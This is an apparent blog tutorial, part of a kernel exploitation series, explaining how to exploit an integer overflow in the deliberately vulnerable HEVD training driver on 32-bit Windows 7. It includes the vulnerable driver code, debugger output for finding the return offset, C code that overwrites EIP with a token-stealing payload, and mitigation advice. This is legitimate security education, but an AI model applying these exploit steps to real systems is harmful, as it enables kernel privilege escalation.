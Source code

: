 ```yaml
---
layout: post
title: "[Kernel Exploitation] 5: Integer Overflow"
date: 2018-01-13 00:00:00
share: true
comments: true
description: Part 5 discusses a common vulnerability class called integer overflow.
tags: [Kernel Exploitation]
---
```


*This part shows how to exploit a vanilla integer overflow vulnerability. Post builds up on lots of contents from part 3 & 4 so this is a pretty short one.*

*Exploit code can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/IntegerOverflow).*

---

### 1. The vulnerability

Link to code [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/106e3dd5d9c49326d55ce17c919bffa68ead1467/Driver/IntegerOverflow.c#L65).

```cpp
NTSTATUS TriggerIntegerOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
    ULONG Count = 0;
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG BufferTerminator = 0xBAD0B0B0;
    ULONG KernelBuffer[BUFFER_SIZE] = {0};
    SIZE_T TerminatorSize = sizeof(BufferTerminator);

    PAGED_CODE();

    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));

        DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
        DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
        DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
        DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));

#ifdef SECURE
        // Secure Note: This is secure because the developer is not doing any arithmetic
        // on the user supplied value. Instead, the developer is subtracting the size of
        // ULONG i.e. 4 on x86 from the size of KernelBuffer. Hence, integer overflow will
        // not occur and this check will not fail
        if (Size > (sizeof(KernelBuffer) - TerminatorSize)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#else
        DbgPrint("[+] Triggering Integer Overflow\n");

        // Vulnerability Note: This is a vanilla Integer Overflow vulnerability because if
        // 'Size' is 0xFFFFFFFF and we do an addition with size of ULONG i.e. 4 on x86, the
        // integer will wrap down and will finally cause this check to fail
        if ((Size + TerminatorSize) > sizeof(KernelBuffer)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#endif

        // Perform the copy operation
        while (Count < (Size / sizeof(ULONG))) {
            if (*(PULONG)UserBuffer != BufferTerminator) {
                KernelBuffer[Count] = *(PULONG)UserBuffer;
                UserBuffer = (PULONG)UserBuffer + 1;
                Count++;
            }
            else {
                break;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }

    return Status;
}
```

Like the comment says, this is a vanilla integer overflow vuln caused by the programmer not considering a very large buffer size being passed to the driver. Any size from `0xfffffffc` to ``0xffffffff` will cause this check to be bypassed. Notice that the copy operation terminates if the terminator value is encountered (has to be 4-bytes aligned though), so we don't need to submit a buffer length of size equal to the one we pass.


#### Exploitability on 64-bit 

The `InBufferSize` parameter passed to `DeviceIoControl` is a DWORD, meaning it's always of size 4 bytes. In the 64-bit driver, the following code does the comparison:

At `HEVD!TriggerIntegerOverflow+97`:
```
fffff800`bb1c5ac7 lea     r11,[r12+4]
fffff800`bb1c5acc cmp     r11,r13
```

Comparison is done with 64-bit registers (no prefix/suffix was used to cast them to their 32-bit representation). This way, `r11` will never overflow as it'll be just set to `0x100000003`, meaning that this vulnerability is **not exploitable** on 64-bit machines.

---

### 2. Controlling execution flow

First, we need to figure out the offset for EIP. Sending a small buffer and calculating the offset between the kernel buffer address and the return address will do:

```
kd> g
[+] UserBuffer: 0x00060000
[+] UserBuffer Size: 0xFFFFFFFF
[+] KernelBuffer: 0x8ACF8274
[+] KernelBuffer Size: 0x800
[+] Triggering Integer Overflow
Breakpoint 3 hit
HEVD!TriggerIntegerOverflow+0x84:
93f8ca58 add     esp,24h

kd> ? 0x8ACF8274 - @esp
Evaluate expression: 16 = 00000010
kd> ? (@ebp + 4) - 0x8ACF8274
Evaluate expression: 2088 = 828
```

Notice that you need to have the terminator value 4-bytes aligned as otherwise it will use the submitted `Size` parameter which will ultimately result in reading beyond the buffer and possibly causing an access violation.

Now we know that RET is at offset **2088**. The terminator value should be at `2088 + 4`.

```cpp
char* uBuffer = (char*)VirtualAlloc(
	NULL,
	2088 + 4 + 4,               // EIP offset + 4 bytes for EIP + 4 bytes for terminator
	MEM_COMMIT | MEM_RESERVE,
	PAGE_EXECUTE_READWRITE);

// Constructing buffer
RtlFillMemory(uBuffer, SIZE, 'A');

// Overwriting EIP
DWORD* payload_address = (DWORD*)(uBuffer + SIZE - 8);
*payload_address = (DWORD)&StealToken;

// Copying terminator value
RtlCopyMemory(uBuffer + SIZE - 4, terminator, 4);
```

That's pretty much it! At the end of the payload (`StealToken`) you need to make up for the missing stack frame by calling the remaining instructions (explained in detail in part 3).

```nasm
pop ebp								; Restore saved EBP
ret 8								; Return cleanly
```

![shell]({{ "/images/kernel6.png" | absolute_url }})

Full exploit can be found [here](https://github.com/abatchy17/hacksys/tree/master/Win7_x86_SP1/IntegerOverflow).

### 3. Mitigating the vulnerability

1. Handle all code paths that deal with arithmetics with extreme care (especially when they're user-supplied). Check operants/result for overflow/underflow condition.

2. Use an integer type that will be able to hold all possible outputs of the addition, although this might not be always possible.


[SafeInt](http://safeint.codeplex.com/) is worth checking out too.

### 4. Recap

1. Vulnerability was not exploitable on 64-bit systems due to the way the comparison takes place between two 64-bit registers and the maximum value passed to `DeviceIoControl` will never overflow.

2. Submitted buffer had to contain a 4-byte terminator value. This is the simplest form of crafting a payload that needs to meet certain criteria.

3. Although our buffer wasn't of extreme size, "lying" about its length to the driver was possible.

---

\- Abatchy